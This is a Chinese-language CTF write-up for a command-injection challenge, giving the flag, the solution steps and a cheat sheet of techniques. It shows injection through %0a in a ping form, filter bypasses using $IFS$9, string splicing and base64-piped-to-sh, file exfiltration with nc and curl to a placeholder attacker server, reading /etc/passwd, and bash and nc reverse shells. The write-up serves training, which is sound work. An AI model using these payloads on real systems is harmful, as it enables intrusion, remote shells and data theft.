







## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  

2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
  

3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
  

6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
  

7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
  


## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=ag;d=fl;$a$b ${d}${c}`或`a=c;b=at;c=ag;d=fl;$a$b $d$c`为cat flag
- 字符串截取，substr
3. `nc、curl`命令的使用，`>、|`重定向符的使用
4. 常用反弹shell
- 攻击者服务器监听8888端口，nc -lvp 8888
- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
- 受害者2 `nc -e /bin/sh {server_ip} 8888`
5. 将反引号内命令的输出作为输入执行
```
cat$IFS$9`ls`
```
6. 过滤bash用sh执行,base64解码，`cat flag.php`为`Y2F0IGZsYWcucGhw`
```
echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```
## 反弹shell相关
1. 读取linux文件   
   ```curl -F "x=`cat /etc/passwd`" http://{your_vps}```
2. 反弹shell  
   attack  `nc -lvp 2333`  
   target  `bash -i >& /dev/tcp/{your_vps_ip}/2333 0>&1`  
   
3. base64反弹shell  
   target  `echo {base64encode_shell}|base64 -d|bash`
  